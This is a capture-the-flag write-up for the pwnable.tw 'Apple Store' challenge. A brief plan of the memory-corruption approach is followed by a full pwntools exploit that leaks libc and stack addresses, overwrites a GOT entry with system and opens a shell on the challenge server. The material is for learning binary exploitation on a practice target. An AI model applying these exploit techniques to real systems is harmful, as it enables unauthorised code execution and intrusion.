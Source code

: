 # Aplle Store
> LongChampion, 26/03/2020

## Ideal
- First, we need to buy an Iphone 8 with $1 by spending exactly $7174 to buy other products.
- The struct which saves info about our Iphone 8 is on stack !!! (not in heap).
- Use GDB to analyze the offset.
- Then use `delete` procedure to control content of Iphone 8 struct and use `checkout` to leak infomation (`libc_base` and  `ebp`)
- Repeat the above step to overwrite `ebp` with `atoi_got+0x22`
- Now, when we enter `delete`, `choice` variable is located at `atoi_got` (because address of `choice` is `delete_ebp-0x22`)
- Change `atoi_got` to `system_addr` and get the shell 

## Final Solution
```python
#!/usr/bin/env python2

from pwn import *

read_got = 0x0804b00c

r = remote("chall.pwnable.tw", 10104)
K = LIBC = ELF("./libc_32.so.6")


def Buy(p, idx):
    p.sendlineafter(">", "2")
    p.sendlineafter("Device Number>", str(idx))


def Checkout(p):
    p.sendlineafter(">", "5")
    p.sendlineafter("Let me check your cart. ok? (y/n) >", "y")


def BuyIphone8(p):
    for _ in range(10):
        Buy(p, 4)
    for _ in range(16):
        Buy(p, 5)
    Checkout(p)


def LeakLIBC(p):
    p.sendlineafter(">", "3")
    p.sendlineafter("Item Number>", "27" + p32(read_got) + "\x00" * 12)
    p.recvuntil("27:")
    read_addr = u32(p.recv(4))
    return read_addr - LIBC.symbols["read"]


def LeakEBP(p):
    p.sendlineafter(">", "3")
    environ = LIBC_BASE + LIBC.symbols["environ"]
    p.sendlineafter("Item Number>", "27" + p32(environ) + "\x00" * 12)
    p.recvuntil("27:")
    environ_addr = u32(p.recv(4))
    return environ_addr - 0x104


BuyIphone8(r)
LIBC_BASE = LeakLIBC(r)
gets_addr = LIBC_BASE + LIBC.symbols["gets"]
system_addr = LIBC_BASE + LIBC.symbols["system"]
binsh_addr = LIBC_BASE + LIBC.search("/bin/sh\x00").next()

EBP = LeakEBP(r)

r.sendlineafter(">", "3")
r.sendlineafter("Item Number>", "27" + p32(gets_addr) +
                "4444" + p32(EBP + 0x20) + p32(EBP - 0x8))

r.sendline("666666" + p32(system_addr) + p32(EBP + 0x20) + p32(binsh_addr))

r.interactive()
```
